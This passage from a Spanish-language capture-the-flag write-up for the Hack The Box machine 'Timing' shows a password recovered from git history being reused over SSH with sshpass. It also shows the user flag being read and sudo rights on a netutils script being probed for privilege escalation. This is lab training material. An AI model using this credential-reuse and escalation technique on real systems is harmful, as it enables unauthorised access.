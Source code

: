 ```console
commit e4e214696159a25c69812571c8214d2bf8736a3f
Author: grumpy <grumpy@localhost.com>
Date:   Tue Jul 20 22:33:54 2021 +0000

    init
...[snip]...
```

¡Bingo!, pues efectivamente se modificó el archivo **`db_conn.php`** para cambiar la contraseña **`S3cr3t_unGu3ss4bl3_p422w0Rd`** por **`4_V3Ry_l0000n9_p422w0rd`** (esta la habíamos obtenido anteriormente analizando el archivo db_conn.php en producción).
En este punto, se me ocurre intentar utilizar esta contraseña para acceder por SSH, pues es probable que haya reutilización de la misma.

```console
p3ntest1ng:~$ sshpass -p "S3cr3t_unGu3ss4bl3_p422w0Rd" ssh aaron@timing.htb
...[snip]...
aaron@timing:~$ ls
user.txt
aaron@timing:~$ cat user.txt 
0107329a9b3fd591ce43ff7fb9f84742
```

## Escalada de Privilegios

Comprobemos los permisos a nivel de sudo para el usuario **`aaron`**:

```console
aaron@timing:~$ sudo -l
Matching Defaults entries for aaron on timing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User aaron may run the following commands on timing:
    (ALL) NOPASSWD: /usr/bin/netutils
```	

Vemos que tenemos permisos de ejecución sobre un script, miremos a ver qué contiene:

```console
aaron@timing:~$ cat /usr/bin/netutils
#! /bin/bash
java -jar /root/netutils.jar
```

Lo ejecutamos para ver qué nos permite hacer este recurso:

```console
aaron@timing:~$ sudo /usr/bin/netutils
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 1
Enter Url: 
```
